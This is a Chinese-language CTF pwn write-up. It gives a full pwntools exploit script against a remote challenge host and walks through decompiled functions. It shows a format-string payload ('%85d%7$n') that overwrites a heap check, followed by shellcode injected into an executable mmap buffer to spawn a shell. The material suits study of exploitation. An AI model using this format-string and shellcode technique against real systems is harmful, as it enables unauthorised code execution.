 屠龙少年终成恶龙（这样看pwn还是挺有意思的）只是我不配罢了

先分析一下大概逻辑

先放wp

```python
from pwn import *
context(log_level = 'debug', arch = 'amd64', os = 'linux')
p = remote('61.147.171.105','65497')
p.recvuntil('secret[0] is ')
addr = int(p.recvuntil('\n'),16)
payload = '%85d%7$n'
p.sendlineafter('be:\n','aaa')
p.sendlineafter('up?:\n','east')
p.sendlineafter('leave(0)?:\n', '1')
p.sendlineafter("address'\n", str(addr))
p.sendlineafter('is:\n',payload)
sc = asm(shellcraft.sh())
p.sendlineafter('SPELL', sc)
p.interactive()

```

用IDA分析

main函数如下

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  _DWORD *v4; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996(0x3CLL);
  v4 = malloc(8uLL);
  *v4 = 68;
  v4[1] = 85;
  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v4);
  printf("secret[1] is %x\n", v4 + 1);
  puts("do not tell anyone ");
  sub_400D72((__int64)v4);
  puts("The End.....Really?");
  return 0LL;
}
```

动态分给v4地址，然后将68存给v4地址对应的值，将85存给v4地址+1的位置上。这里获取一下secret[0]也就是v4的地址，然后再输出do not tell anyone后进入sub_400D72

```c
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf("%s", s);
  if ( strlen(s) <= 0xC )
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6((_DWORD *)a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

这个函数就是让你输入你的name，然后进入sub_400A7D()、 sub_400BB9()、sub_400CA6((_DWORD *)a1);

第一个函数没啥漏洞

第二个函数如下

```c
if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);
    puts("And, you wish is:");
    _isoc99_scanf("%s", format);
    puts("Your wish is");
    printf(format);
    puts("I hear it, I hear it....");
  }
```

这里的话v2和format离的比较近，就可以用v2传地址，然后用format和printf字符串格式化漏洞传递

payload = '%85d%7$n'大概就是这样用字符串格式化漏洞

然后终于可以进来了！

```c
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD, void *))v1)(0LL, v1);
  }
```

这里的话要写入一个shellcode

```python
sc = asm(shellcraft.sh())
p.sendlineafter('SPELL', sc)
```

然后即可获取权限